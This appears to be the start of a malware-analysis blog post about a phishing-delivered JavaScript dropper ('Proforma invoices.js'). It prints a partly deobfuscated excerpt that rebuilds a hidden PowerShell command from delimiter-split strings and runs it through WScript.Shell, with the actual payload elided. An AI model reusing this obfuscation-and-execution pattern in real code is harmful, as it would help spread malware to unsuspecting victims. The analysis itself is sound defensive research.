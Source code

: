 ```yaml
---
title: Stego Campaign
date: 2024-09-10 18:55:00 +0800
categories: [Malware,DLL,.NET,Injection,Javascript,Dropper]
tags: [.Net]
pin: true
---
```


### Introduction
![Stego](https://raw.githubusercontent.com/kzimmermann/stego/main/stego_logo.png "Stego")

Recently while browsing Bazaar I saw a JS file uploaded and it peaked my interest again. As we analysed a JS dropper based in Brazil in the last [blog](https://somedieyoungzz.github.io/posts/ta558/). I thought it would be a nice idea to get more hands on the Javascript based droppers and this sample was really straight forward and fun to analyse. Tags on bazaar show that this sample was distributed via e-mail attachment so some kind of phising mails must have been send.

### Phase 1 
![VT](https://cdn-images-1.medium.com/v2/resize:fit:800/1*UNT7sqP0b2qz0ndjCgocdw.png "VT")

&rarr; VT shows a really low score of only 6 and it detects it as a MP3 file. Even though the original file name is given below as **Proforma invoices.js**. This may have been related to how the file was sent over during the phising as an MP3 or something else.

![JS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*AOMCHdwc-SF-s-fF0ND-kA.png "JS")
&rarr; The oringal JS file contains a lot of unecessary strings repeated over making the file tough to understand and it also has many redudant functions that are not at all referenced anywhere else. Removing all these things we're left with little bit of obufuscation and the main payload.

```js

	var arrefanhar = "䷲ ➙ ⋪ ⤖ ㌍";
        var jaquete = " long ass payload"
        jaquete += "long ass payload again"
        jaquete += "long ass payload again"
	jaquete += "long ass payload again"
	// repeated like 50 times
	jaquete = jaquete.split(arrefanhar).join("");
        jaquete = jaquete.split("").reverse().join("");
        var deilo = new ActiveXObject("WScript.Shell");
        var joanino = "䷲ ➙ ⋪ ⤖ ㌍$C䷲ ➙ ⋪ ⤖ ㌍o";
        joanino += "䷲ ➙ ⋪ ⤖ ㌍F䷲ ➙ ⋪ ⤖ ㌍r䷲ ➙ ⋪ ⤖ ㌍o";
        // this too repeated like 50 times
        joanino = joanino.split(arrefanhar).join("");
        var mycogenia = "p䷲ ➙ ⋪ ⤖ ㌍o";
        var mycogenia = "p䷲ ➙ ⋪ ⤖ ㌍o";
        mycogenia += "䷲ ➙ ⋪ ⤖ ㌍wer";
        mycogenia += "䷲ ➙ ⋪ ⤖ ㌍sh䷲ ➙ ⋪ ⤖ ㌍e";
        mycogenia += "䷲ ➙ ⋪ ⤖ ㌍l䷲ ➙ ⋪ ⤖ ㌍l -䷲ ➙ ⋪ ⤖ ㌍co";
        mycogenia += "䷲ ➙ ⋪ ⤖ ㌍m䷲ ➙ ⋪ ⤖ ㌍ma";
        mycogenia += "䷲ ➙ ⋪ ⤖ ㌍n䷲ ➙ ⋪ ⤖ ㌍d ䷲ ➙ ⋪ ⤖ ㌍";
        mycogenia += joanino;
        mycogenia = mycogenia.split(arrefanhar).join("");
        var bodelgo = WScript.CreateObject("WScript.Shell");
        bodelgo.Run(mycogenia, 0, true);
```
